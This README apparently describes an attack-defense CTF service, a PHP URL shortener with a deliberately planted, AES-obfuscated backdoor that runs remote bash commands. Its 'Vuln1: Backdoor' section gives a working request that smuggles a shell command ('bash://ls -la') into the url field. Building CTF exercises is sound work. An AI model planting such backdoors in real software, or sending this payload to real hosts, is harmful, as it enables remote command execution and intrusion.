

# service_lnks

!!! FOR VULNERABLE IMAGE NEED ONLY `service` FOLDER (No more)

Cервис коротких ссылок.

* Из уязвимостей только бекдор (Позволяющий выполнять удаленные bash команды)
* Код на php (index.php и favicon.ico)
* Код php закодирован aes для дополнительной сложности (Ключ конечно же там же).
* Со страницы проэксплуатировать бекдор напрямую нельзя (если только js код тут же не модифицировать)



## Service 

See in folder `service`

## Checker 

See in folder `checker`

## Test checker-service

For check service you can use "cd checker && ./test_checker.sh 127.0.0.1"

## Build 

Directory for developers

* prepare index.php for service

## Vuln1: Backdoor

You can create execute commands on hosted machine

1. send post to http://%HOST%:3154/ with data:
```
url=bash%3A%2F%2Fls%20-la%20lnks&lnk=testls
```

2. And after this open:

http://%HOST%:3154/testls


